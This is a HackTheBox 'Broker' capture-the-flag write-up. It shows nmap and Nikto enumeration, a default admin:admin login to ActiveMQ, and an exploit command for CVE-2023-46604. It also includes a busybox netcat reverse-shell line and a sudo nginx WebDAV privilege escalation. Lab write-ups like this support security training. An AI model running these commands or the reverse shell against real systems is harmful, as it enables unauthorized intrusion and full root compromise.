







# HackTheBox - Broker 


## Overview

- Difficulty: Easy
- Platform: Linux
- Skills Demonstrated: Web Exploitation, Default Credential Abuse, Exploitation of Known Vulnerabilites, Linux Privilege Escalation

---
## Enumeration 

Initial reconnaissance was performed using Nmap to identify open ports, services and versions. 
```
nmap -sCV -A -p- 10.129.230.87
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-19 15:14 BST
Nmap scan report for 10.129.230.87
Host is up (0.014s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
36387/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```
Key Findings:
- Port 22 - SSH
- Port 80 - HTTP (nginx)
- Port 61616 - HTTP (ActiveMQ 5.15.15)

Upon discovering open web application ports I run a Nikto scan 
```
nikto -h 10.129.230.87
```
```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.129.230.87
+ Target Hostname:    10.129.230.87
+ Target Port:        80
+ Start Time:         2026-04-19 15:15:19 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ / - Requires Authentication for realm 'ActiveMQRealm'
+ /: Default account found for 'ActiveMQRealm' at (ID 'admin', PW 'admin'). Generic account discovered.. See: CWE-16
+ Root page / redirects to: http://10.129.230.87/index.html
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ /admin/: This might be interesting.
+ /admin/login.html: Admin login page/section found.
+ 8129 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2026-04-19 15:17:35 (GMT1) (136 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```                                                       
Before moving forward to port enumeration, through our intial reconnaissance we have already discovered the server is running the ActiveMQ service, the version number for this service (5.15.15) and that there is a default account enabled found by our Nikto scan
```
Default account found for 'ActiveMQRealm' at (ID 'admin', PW 'admin')
```

## Intial Access

Navigating to port 80 issues us with a login prompt 



Trying the credentials we found earlier (admin:admin) was successful, we were also able to confirm the default credentials through a google search 



Once we are authenticated, we are take to the welcome page for ActiveMQ. The top link 'Manage ActiveMQ broker' instantly grabbed my attention. This link reveals the /admin endpoint which reveals further confirms our previous findings relating to the version of the service running. 




The target is running Apache ActiveMQ version 5.15.15. This version is affected by CVE-2023-46604, which can be leverage to achive remote code execution. A public exploit was found that generates a pseudo shell due to the unsafe deserialization within the OpenWire protocol.

<https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell/blob/master/README.md>

### Exploitation

The vulnerability was confirmed and exploited using the following command, leading to successful remote code execution;
```
python3 exploit.py -i 10.129.230.87 -p 61616 -si 10.10.14.170 -sp 8080
```



A BusyBox reverse shell was used to upgrade the intial foothold into a more stable and interactive shell for further exploitation. 

```
busybox nc 10.10.14.170 4444 -e /bin/bash
```



The user.txt flag can be found in the /home/activemq directory 

## Privilege Escalation

As part of my post-exploitation methodology, sudo privileges were reviewd to idenitfy potential privilege vectors.
```
sudo -l
```
This revealed that the user can run '/usr/sbin/nginx' with elevated privileges.



After further enumeration a vulnerability was found that allowed a custom configuration file to be loaded with elevated privileges. 


The exploit enabled WebDAV and exposed the filesystem,, allowing arbitrary file write. This was then leveraged to add a SSH public key resulting in root access via SSH.


Exploit source: https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406
